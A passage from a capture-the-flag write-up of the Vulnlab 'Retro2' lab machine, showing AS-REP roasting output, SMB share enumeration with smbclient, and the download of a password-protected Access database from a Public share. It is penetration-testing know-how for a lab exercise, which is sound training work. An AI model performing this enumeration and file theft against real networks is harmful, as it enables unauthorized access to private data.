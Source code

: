 ```
[-] User ldapreader doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User FS01$ doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User FS02$ doesn't have UF_DONT_REQUIRE_PREAUTH set
```

We revisited the SMB shares and noticed a share named `Public` that was available (I missed it the first time because I wasn't checking the output thoroughly, but I found it in a write-up).

Inside the `Public` share, we found a `staff.accdb` file in the DB folder and downloaded it to Falcon.

```
┌──(destiny㉿falcon)-[~/Vulnlab/Machines/Retro2]
└─$ smbclient //retro2.vl/public
Password for [WORKGROUP\destiny]:
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Sat Aug 17 20:00:37 2024
  ..                                  D        0  Sat Aug 17 20:00:37 2024
  DB                                  D        0  Sat Aug 17 17:37:06 2024
  Temp                                D        0  Sat Aug 17 17:28:05 2024

                6290943 blocks of size 4096. 1254180 blocks available
smb: \> cd DB
smb: \DB\> ls
  .                                   D        0  Sat Aug 17 17:37:06 2024
  ..                                  D        0  Sat Aug 17 17:37:06 2024
  staff.accdb                         A   876544  Sat Aug 17 20:00:19 2024

                6290943 blocks of size 4096. 1254179 blocks available
smb: \DB\> mget *
Get file staff.accdb? y
getting file \DB\staff.accdb of size 876544 as staff.accdb (397.8 KiloBytes/sec) (average 397.8 KiloBytes/sec)
smb: \DB\> cd ..
smb: \> cd temp
smb: \temp\> ls
  .                                   D        0  Sat Aug 17 17:28:05 2024
  ..                                  D        0  Sat Aug 17 17:28:05 2024

                6290943 blocks of size 4096. 1254179 blocks available
smb: \temp\> 
```

We were able to identify that it is an MS Access database.

```
┌──(destiny㉿falcon)-[~/Vulnlab/Machines/Retro2]
└─$ file staff.accdb  
staff.accdb: Microsoft Access Database
```

We weren't able to access it using LibreOffice, so we tried MS Access and discovered that it is password-protected.
